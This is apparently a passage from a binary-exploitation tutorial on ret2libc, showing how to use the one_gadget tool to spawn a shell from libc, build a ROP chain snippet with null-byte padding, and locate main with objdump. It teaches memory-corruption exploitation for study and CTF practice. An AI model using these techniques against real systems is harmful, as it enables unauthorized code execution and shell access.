 ## 4(2)- Using ONE_GADGET

You could also use [**ONE_GADGET** ](https://github.com/david942j/one_gadget)to obtain a shell instead of using **system** and **"/bin/sh". ONE_GADGET** will find inside the libc library some way to obtain a shell using just one **ROP address**.\
However, normally there are some constrains, the most common ones and easy to avoid are like `[rsp+0x30] == NULL` As you control the values inside the **RSP** you just have to send some more NULL values so the constrain is avoided.

![](<../../../../images/image (754).png>)

```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```

## EXPLOIT FILE

You can find a template to exploit this vulnerability here:

{{#ref}}
rop-leaking-libc-template.md
{{#endref}}

## Common problems

### MAIN_PLT = elf.symbols\['main'] not found

If the "main" symbol does not exist. Then you can find where is the main code:

```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```

and set the address manually:

```python
MAIN_PLT = 0x401080
```
